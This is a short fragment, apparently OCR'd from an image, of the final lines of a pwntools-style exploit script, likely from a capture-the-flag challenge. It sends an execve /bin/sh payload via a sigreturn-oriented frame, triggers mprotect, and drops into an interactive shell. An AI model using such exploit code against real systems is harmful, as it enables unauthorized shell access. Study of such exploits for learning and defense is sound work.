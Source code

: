 ```

input("send execve bin/sh payload")
io.send(do_execve_bin_sh) # set up sigreturn frame
input("trigger sigreturn and mprotect")
io.send(do_execve_bin_sh[8:8+15]) # read 15 bytes, trigger sigreturn

io.interactive()
```
